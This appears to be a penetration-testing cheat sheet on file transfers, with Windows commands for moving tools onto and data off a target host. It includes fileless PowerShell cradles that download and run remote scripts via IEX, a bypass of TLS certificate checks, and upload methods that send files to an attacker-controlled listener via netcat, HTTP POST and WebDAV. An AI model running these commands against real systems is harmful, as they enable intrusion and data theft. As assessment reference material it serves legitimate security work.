 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
  <summary><strong>🪟 Windows</strong></summary>
  <details>  
    <summary><strong>📥 Downloads</strong></summary>
      <details>
        <summary><strong>PowerShell Downloads</strong></summary>  
        <details> 
        <summary><strong>PowerShell DownloadFile Method</strong></summary>
          
  Sync  
  ```powershell
  (New-Object Net.WebClient).DownloadFile('<FILE URL>','<OUTPUT FILE>')
  ```
  Async  
  ```powershell
  (New-Object Net.WebClient).DownloadFileAsync('<FILE URL>','<OUTPUT FILE>')
  ```
          
  </details>

  <details>
    <summary><strong>PowerShell DownloadString - Fileless Method</strong></summary>

  Default  
  ```powershell
  IEX (New-Object Net.WebClient).DownloadString('<FILE URL>')
  ```

  Pipeline input  
  ```powershell
  (New-Object Net.WebClient).DownloadString('<FILE URL>') | IEX
  ```
  </details>

  <details>
    <summary><strong>PowerShell Invoke-WebRequest</strong></summary>

  Default  
  ```powershell
  Invoke-WebRequest <FILE URL> -OutFile <OUTPUT FILE>
  ```

  ByPass Internet Explorer Error  
  ```powershell
  Invoke-WebRequest <FILE URL> -UseBasicParsing | IEX
  ```

  ByPass SSL/TLS Error  
  ```powershell
  [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
  # Command to download the file
  ```
  </details>
  </details>

  <details>
    <summary><strong>SMB Downloads</strong></summary>

  **Default**
  
  Create the SMB Server in Linux
  ```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare
  ```
  Download using CMD in Windows
  ```cmd
  copy \\<IP>\share\<FILE>
  ```
  
  **Using credentialts**

  Create the SMB Server in Linux
  ```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
  ```
  Mount the SMB Server in Linux
  ```cmd
  net use n: \\<IP>\share /user:<USER> <PASSWORD>
  copy n:\<FILE>
  ```

  </details>

<details>
    <summary><strong>FTP Downloads</strong></summary>  
    
  **Upload file**  
  
  Setting up a Python3 FTP Server in Linux
  ```bash
  sudo pip3 install pyftpdlib
  sudo python3 -m pyftpdlib --port 21
  ```

  **Option 1: Download file using Powershell**
  ```powershell
  (New-Object Net.WebClient).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<OUTPUT FILE>')
  ```

  **Option 2: Download file using CMD**  
  
  Create a Command File for the FTP Client and Download the Target File
  ```cmd
  echo open <IP> > ftpcommand.txt
  echo USER anonymous >> ftpcommand.txt
  echo binary >> ftpcommand.txt
  echo GET <FILE> >> ftpcommand.txt
  echo bye >> ftpcommand.txt
  ftp -v -n -s:ftpcommand.txt
  ```
  Once in FTP...
  ```cmd
  open <IP>
  USER anonymous
  GET <FILE>
  bye
  ```
  Back in CMD...
  ```cmd
  more <FILE>
  ```
---
  
  </details>
  </details>
  <details>  
    <summary><strong>📥 Uploads</strong></summary>  
    <details>  
  <summary><strong>PowerShell Uploads</strong></summary>  
  <details>  
  <summary><strong>PowerShell Base64 Encode & Decode</strong></summary>  
    
  1. Encode File Using PowerShell 
  ```powershell
  [Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))
  Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

  2. Decode Base64 String in Linux
  ```bash
  echo <BASE64 STRING> | base64 -d > <FILE>
  md5sum <FILE>
  ```
  </details>
  <details>  
  <summary><strong>PowerShell Web Uploads</strong></summary>  
    
  1. Installing a Configured WebServer with Upload in Linux
  ```bash
  pip3 install uploadserver
  python3 -m uploadserver
  ```
  2. PowerShell Script to Upload a File to Python Upload Server
  ```powershell
  IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<IP>:<PORT>/upload -File <FILE PATH>
  ```

  </details>
  <details>  
  <summary><strong>PowerShell Base64 Web Upload</strong></summary>  
    
  1. We use Netcat to listen in on a port we specify and send the file as a POST request.
  ```bash
  nc -lvnp <PORT>
  ```
  2. PowerShell Script to Upload a File to Python Upload Server
  ```powershell
  $b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE PATH>' -Encoding Byte))
  Invoke-WebRequest -Uri http://<IP>:<PORT>/ -Method POST -Body $b64
  ```
  3. We copy the output and use the base64 decode function to convert the base64 string into a file.
  ```bash
  echo <BASE64 FILE> | base64 -d -w 0 > <FILE>
  ```
  </details>
  </details>
  <details> 
  <summary><strong>SMB Uploads</strong></summary>  

  1. Installing WebDav Python modules in Linux
  ```bash
  sudo pip3 install wsgidav cheroot
  sudo wsgidav --host=0.0.0.0 --port=<PORT> --root=/tmp --auth=anonymous
  ```
  2. Uploading Files using SMB in Windows
  ```cmd
  # DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server.
  dir \\192.168.49.128\DavWWWRoot
  copy <FILE PATH> \\<IP>\DavWWWRoot\

# You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \<IP>\sharefolder
  copy <FILE PATH> \\<IP>\sharefolder\
  ```
  </details>
  </details>
</details>

---

<details>
  <summary><strong>🐧 Linux</strong></summary>
</details>

---
